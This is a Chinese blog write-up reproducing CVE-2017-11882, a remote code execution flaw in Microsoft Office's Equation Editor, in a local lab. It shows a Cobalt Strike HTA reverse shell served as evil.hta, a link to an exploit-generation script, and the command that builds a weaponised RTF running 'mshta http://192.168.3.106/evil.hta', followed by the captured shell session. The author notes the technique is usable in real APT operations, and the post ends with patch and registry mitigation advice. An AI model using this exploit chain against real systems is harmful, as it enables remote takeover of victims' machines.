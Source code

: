 ```yaml
---
categories: 漏洞复现
date: "2017-11-21T00:00:00Z"
description: 本文记录一下针对CVE-2017-11882的漏洞复现
title: CVE-2017-11882漏洞复现
url: /archivers/2017-11-21/1
---
```



## 0x00 前言

参考backlion师傅的PDF，记录一下这个过程。

2017年11月14日，微软发布了11月份的安全补丁更新，其中比较引人关注的莫过于悄然修复了潜伏17年之久的Office远程代码执行漏洞（CVE-2017-11882）。该漏洞为Office内存破坏漏洞，影响目前流行的所有Office版本。攻击者可以利用漏洞以当前登录的用户的身份执行任意命令。
由于漏洞影响面较广，漏洞披露后，金睛安全研究团队持续对漏洞相关攻击事件进行关注。11月19日，监控到了已有漏洞POC在网上流传，随即迅速对相关样本进行了分析。目前该样本全球仅微软杀毒可以检测。

* 漏洞影响版本：
* Office 365
* Microsoft Office 2000      
* Microsoft Office 2003      
* Microsoft Office 2007 Service Pack 3
* Microsoft Office 2010 Service Pack 2
* Microsoft Office 2013 Service Pack 1
* Microsoft Office 2016

## 0x01 环境清单

* WindowsServer 2008 (192.168.3.114)
* Office 2007
* MAC OSX(192.168.3.106)

## 0X02 复现过程

### 使用Cobalt Strike生成hta反弹shell

![生成](https://images.payloads.online/eca6cc68-4f5e-11ec-9ca9-00d861bf4abb.png)

将生成的hta文档放入WebServer根目录：http://192.168.3.106/evil.hta

我(Cobalt Strike)本地监听了一个8081端口，用来接收客户端的Shell


### 生成一个rtf/doc文档

github上已有生成脚本

`webdav_exec_CVE-2017-11882.py` 地址： http://payloads.online/tools/cve-2017-11882/webdav_exec_CVE-2017-11882.py

生成rtf文档：

```
python webdav_exec_CVE-2017-11882.py -u http://192.168.3.106/evil.hta -e "mshta http://192.168.3.106/evil.hta" -o test.rtf
!!! Completed !!!
```

最后将test.rtf在目标机器上执行 `=_=||`，其实可以实战的，对于APT的帮助很大

### 结果

目标机器上执行后，我们可以在Cobalt Strike看到来自客户端的会话

![shell](https://images.payloads.online/ed07c464-4f5e-11ec-8978-00d861bf4abb.png)


## 0x03 修复建议

1、微软已经对此漏洞做出了修复。

* 下载`https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2017-11882`  更新补丁进行修补
*  开启Windows Update功能，定期对系统进行自动更新

2、由于该公式编辑器已经17年未做更新，可能存在大量安全漏洞，建议在注册表中取消该模块的注册。

* 按下Win R组合键，打开cmd.exe
* 输入以下两条命令：
`reg add  “HKLM\SOFTWARE\Microsoft\Office\Common\COM Compatibility\{0002CE02-0000-0000-C000-000000000046} ” /v “Compatibility  Flags”  /t  REG_DWORD /d    0x400`



